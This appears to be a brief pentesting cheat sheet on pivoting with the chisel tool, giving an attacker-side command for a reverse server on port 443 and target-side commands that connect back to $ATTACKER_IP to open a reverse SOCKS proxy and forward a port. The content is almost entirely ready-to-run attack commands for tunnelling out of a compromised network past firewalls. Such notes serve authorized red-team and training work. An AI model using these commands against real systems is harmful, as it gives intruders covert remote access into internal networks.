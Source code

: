 # tunneling through chisel - socks
Tunnel through 443 and open a socks proxy on attacker localhost.
## Attacker
```bash
./chisel server --port 443 --reverse
```
## Target
```
./chisel client $ATTACKER_IP:443 R:socks
```
## Forward specific port
Forward port 1234 on attacker host to 127.0.0.1:1234 on target.
The client specifies the ports.
```
./chisel client $ATTACKER_IP:443 R:1234:127.0.0.1:1234
```
